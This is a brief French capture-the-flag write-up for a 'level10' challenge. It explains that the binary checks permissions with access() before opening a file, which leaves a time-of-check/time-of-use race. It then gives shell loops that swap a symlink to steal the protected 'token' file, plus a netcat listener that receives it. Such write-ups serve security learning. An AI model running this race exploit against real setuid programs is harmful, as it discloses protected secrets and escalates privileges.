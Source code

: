 ```
hexdump -C level10
```

On trouve un appel a `access()` pour verifier si l'utilisateur a droit de faire `open`
Ceci ouvre une vulnerabilite a une attaque de type TOC/TOU.

On cree 2 boucles:

```sh
while true;
do
	ln -fs token malicious_link
	ln -fs nani malicious_link
done
```

et

```sh
while true;
do
	./level10 malicious_link 127.0.0.1
done
```

Puis on ecoute les connections avec netcat:
```sh
nc -l -k 6969
```



